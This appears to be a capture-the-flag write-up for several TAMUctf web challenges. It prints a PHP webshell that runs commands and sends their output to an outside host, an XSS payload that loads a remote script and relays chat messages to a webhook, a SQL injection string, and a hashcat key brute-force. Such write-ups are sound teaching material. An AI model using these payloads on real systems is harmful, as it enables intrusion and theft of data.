 # Web
## Remote
The code checks keywords before filtering. Hence, injecting chracters that will be filtered later would bypass it, like `p hp`. Once uploaded a webshell, `ls /tmp | head -n 1` to enumerate the files in /tmp and find out the flag. Since the server will not respond, I set up a web server to retrieve the response with `file_get_contents`

Final payload to read the flag
```
https://remote.tamuctf.com/uploads/a883ffa3e14ef5a295448894efe2f0fc/gwm2ucz4dxgeyaavxid6kr1z28yk8f22.php?cmd=cat%20/tmp/flag-de88df3ebf2f0c4bf871ddfb2e0fcce4.txt
```

Webshell:
```php
<?php $url='http://mv.jianwei.me/?' . exec($_GET['cmd']);file_get_contents($url);?>
```

## Flipped
CBC Flip attack. Flip the 10th byte

## Forgotten Password
The code checks the email with `include`, which can be tricked with a `\x00`

## Imposter

XSS code:
```HTML
<img src=x onerror=document.body.appendChild(document.createElement('script')).src='//webhook/imposter.js'>
```

JS code on the server:
```JavaScript
socket.on('message', function(data){

var httpRequest = new XMLHttpRequest();
httpRequest.open('POST', 'http://webhook/imposter.php', true);
httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");
httpRequest.send('data=from flag message-' + data.content);
httpRequest.onreadystatechange = function () {
    if (httpRequest.readyState == 4 && httpRequest.status == 200) {
        var json = httpRequest.responseText;
        console.log(json);
    }
};

        }
)
socket.emit('flag');
```

PHP code on the server:
```php
<?php
$data = $_POST['data'];

$file = fopen("/tmp/data.txt", "w");

if (fwrite($file, $data)) {
} else {
}

fclose($file);
?>
```

## cereal
Replace the password md5(''). Then it is a regular SQL injection.

```
"username";s:57:"a' union select 1,2,group_concat(password),4 from users--"
"password":"d41d8cd98f00b204e9800998ecf8427e"
```

## cracked
Get the base64 decoded hex of sig. Then brute force the key with hashcat.

```
hashcat -m 150 -a 3 'beefda82f9ed4590ea38e9c5a4616397e19f9c74:{"admin": 0, "username": "guest"}' '?a?a?a?a?a?a'

beefda82f9ed4590ea38e9c5a4616397e19f9c74:{"admin": 0, "username": "guest"}:6lmao9
```
